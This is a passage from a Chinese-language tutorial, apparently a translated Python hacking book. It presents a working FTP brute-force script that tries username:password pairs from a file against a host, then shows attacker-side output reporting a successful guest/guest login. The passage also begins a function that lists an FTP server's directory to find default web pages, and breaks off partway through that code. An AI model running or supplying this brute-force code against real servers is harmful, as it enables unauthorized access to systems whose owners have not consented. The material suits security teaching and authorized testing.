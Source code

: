 现在我们能扩展前面建立的`anonLogin()`函数建立名为`brutelogin()`的函数。这个函数接受主机名和密码文件作为输入返回允许访问主机的证书。注意，函数迭代文件的每一行，用冒号分割用户名和密码，然后这个函数用用户名和密码尝试登陆 FTP 服务器。如果成功，将返回用户名和密码的元组，如果失败有异常，将继续测试下一行。如果遍历完所有的用户名和密码都没有成功，则返回包含`None`的元组。

```py
# coding=UTF-8

import ftplib

def bruteLogin(hostname, passwdFile):
    pF = open(passwdFile, 'r')
    for line in pF.readlines():
        userName = line.split(':')[0]
        passWord = line.split(':')[1].strip('\r').strip('\n')
        print("[+] Trying: " + userName + "/" + passWord)
        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(userName, passWord)
            print('\n[*] ' + str(hostname) + ' FTP Logon Succeeded: ' + userName + "/" + passWord)
            ftp.quit()
            return (userName, passWord)
        except Exception as e:
            pass
    print('\n[-] Could not brute force FTP credentials.')
    return (None, None)

host = '192.168.95.179'
passwdFile = 'userpass.txt'
bruteLogin(host, passwdFile) 
```

遍历用户名和密码组合，我们终于找到了用户名以及对应的密码。

```py
attacker# python bruteLogin.py
[+] Trying: administrator/password
[+] Trying: admin/12345
[+] Trying: root/secret
[+] Trying: guest/guest
[*] 192.168.95.179 FTP Logon Succeeded: guest/guest 
```

## 在 FTP 服务器上寻找 WEB 页面

有了 FTP 访问权限，我们还要测试服务器是否还提供了 WEB 访问。为了测试这个，我们首先要列出 FTP 的服务目录并寻找默认的 WEB 页面。函数`returnDefault()`接受一个 FTP 连接作为输入并返回一个找到的默认页面的数组。它通过发送命令 NLST 列出目录内容。这个函数检查每个文件返回默认 WEB 页面文件名并将任何发现的默认 WEB 页面文件名添加到名为`retList`的列表中。完成迭代这些文件之后，函数将返回这个列表。

```py
# coding=UTF-8

import ftplib

def returnDefault(ftp):
    try:
        dirList = ftp.nlst()
    except:
        dirList = []
        print('[-] Could not list directory contents.')
        print('[-] Skipping To Next Target.')
        return
    retList = []
    for fileName in dirList:
        fn = fileName.lower()
        if '.php' in fn or '.htm' in fn or '.asp' in fn:
            print('[+] Found default page: ' + fileName)
```